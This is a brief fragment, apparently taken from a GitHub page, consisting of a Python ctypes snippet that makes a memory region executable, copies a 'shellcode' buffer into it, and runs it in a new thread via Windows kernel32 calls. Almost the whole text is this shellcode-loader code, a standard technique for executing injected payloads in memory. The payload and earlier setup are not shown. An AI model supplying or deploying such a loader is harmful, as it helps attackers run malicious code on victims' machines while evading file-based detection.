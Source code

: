 ```python

ctypes.windll.kernel32.VirtualProtect(
    ptr,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

![](img/3.png)
